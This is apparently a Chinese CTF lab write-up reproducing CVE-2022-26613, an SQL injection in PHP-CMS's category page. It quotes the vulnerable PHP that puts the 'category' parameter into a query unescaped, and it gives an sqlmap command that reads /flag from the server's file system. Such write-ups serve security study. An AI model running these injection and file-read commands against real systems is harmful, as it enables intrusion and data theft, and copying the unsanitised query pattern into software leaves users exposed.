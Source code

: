 ```yaml
---
title: CVE-2022-26613【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-26613)

## 2. 漏洞分析

详情参见：[SQL injection in categorymenu page · Issue #14 · harshitbansal373/PHP-CMS · GitHub](https://github.com/harshitbansal373/PHP-CMS/issues/14)

说白了就是未对 `$_GET['category']` 提交的参数值未作任何过滤或转义

The problem code is here.

```php
 <?php
if(isset($_GET['category'])){
    $post_category_id = $_GET['category'];
}
$query = "SELECT * FROM posts WHERE post_category_id = {$post_category_id} ";
$select_all_posts_count_query = mysqli_query($connection,$query);
$count = mysqli_num_rows($select_all_posts_count_query);
confirm_query($select_all_posts_count_query);
……
while($row = mysqli_fetch_assoc($select_all_posts_count_query)){
    $post_id = $row['post_id'];
    $post_title = $row['post_title'];
    $post_user = $row['post_user'];
    $post_date = $row['post_date'];
    $post_image = $row['post_image'];
    $post_content = $row['post_content'];
?>
```

## 3. 漏洞复现

根据漏洞分析直接对 `category` 参数进行 `union` 注入，查数据库—查数据表—查字段……未找到 flag，尝试用sqlmap 直接从根目录读取 flag。

```bash
python sqlmap.py -u "http://eci-2ze2hbrirax6c67zx8h7.cloudeci1.ichunqiu.com/categorymenu.php?category=" --file-read "/flag" --dbms mysql --batch
```

![效果](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309081944506.jpg)
